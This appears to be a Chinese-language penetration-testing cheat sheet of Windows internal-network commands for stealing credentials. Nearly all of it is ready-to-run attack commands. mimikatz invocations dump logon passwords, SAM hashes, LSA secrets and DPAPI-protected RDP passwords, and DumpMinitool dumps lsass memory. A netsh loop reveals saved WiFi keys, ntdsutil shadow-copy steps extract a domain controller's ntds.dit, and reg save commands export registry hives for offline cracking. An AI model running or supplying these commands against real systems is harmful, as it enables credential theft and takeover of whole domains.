# 内网常用命令

## Windows

### Win-凭证获取

🚀  
mimikatz.exe "log hash.txt" "privilege::debug" "sekurlsa::logonPasswords" "exit"  
mimikatz.exe "log hash.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"

🚀 利用具有微软签名的DumpMinitool.exe工具导出内存  
--file 保存的文件名  
--processId lsass.exe 进程号  
DumpMinitool.exe --file dump.txt --processId 948 --dumpType Full

🚀获取系统保存的RDP密码  
查询远程连接记录  
reg query "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Terminal Server Client\\Servers" /s  
解密出明文RDP连接密码, mimikatz执行如下命令:  
privilege::debug  
dpapi::cred /in:{凭证文件}  
sekurlsa::dpapi  
dpapi::cred /in:{凭证文件} /masterkey:{MasterKey}  
exit

🚀获取系统保存的VPN密码  
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"

🚀获取系统连接的WIFI密码  
for /f "skip\=9 tokens\=1,2 delims\=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key\=clear

🚀卷影拷贝获取域控凭证, 此方法支持windows server 2003、2008、2012  
第一步：创建快照 产生的快照GUID为：{850bc5ab-7620-48fa-bd1f-c23c8150a3f0}  
ntdsutil.exe snapshot "activate instance ntds" create quit quit  
第二步：加载快照 快照位置：C:\$SNAP\_202009222211\_VOLUMEC\$\\  
ntdsutil.exe snapshot "mount {850bc5ab-7620-48fa-bd1f-c23c8150a3f0}" quit quit  
第三步：复制快照中的ntds.dit文件  
copy 'C:\$SNAP\_202009222211\_VOLUMEC\$\\Windows\\NTDS\\ntds.dit' C:\\ntds.dit  
第四步：删除快照  
ntdsutil.exe snapshot "List All" quit quit  
ntdsutil.exe snapshot "umount {850bc5ab-7620-48fa-bd1f-c23c8150a3f0}" "delete {850bc5ab-7620-48fa-bd1f-c23c8150a3f0}" quit quit  
ntdsutil.exe snapshot "List All" quit quit

🚀利用注册表离线导出Hash  
reg save HKLM\\SYSTEM system.hiv  
reg save HKLM\\SAM sam.hiv  
reg save HKLM\\security security.hiv

🚀使用mimikatz解密Hash  
mimikatz.exe "log hash.txt" "lsadump::sam /system:system.hiv /sam:sam.hiv /security security.hiv" exit
